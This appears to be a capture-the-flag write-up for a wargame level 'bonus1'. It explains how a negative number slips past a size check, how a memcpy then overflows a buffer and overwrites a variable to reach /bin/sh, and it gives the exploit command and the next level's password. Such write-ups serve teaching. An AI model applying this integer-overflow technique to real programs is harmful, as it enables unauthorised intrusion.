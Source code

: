 # bonus1

The source of this level is quite simple.

All we need is to enter a number inferior to 9 (first argument) and a string (second argument).

The program will copy `x` bytes from the second argument to the string. `x` is 4x the number.

To exec `/bin/sh`, the number need to be exactly `0x574f4c46 -> 1464814662`.

# Exploit

If we enter a negative number, this number is inferior to 9 and in the memcpy, the number will be casted to a positive number.

The number variable is 40 oct after the string so we only need to copy 44 chars.

```bash
# ./bonus1 <int-min>-11 "40 char + 1464814662"
> ./bonus1 -2147483637 "`perl -e 'print "A"x40 . "\x46\x4c\x4f\x57"'`"
cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
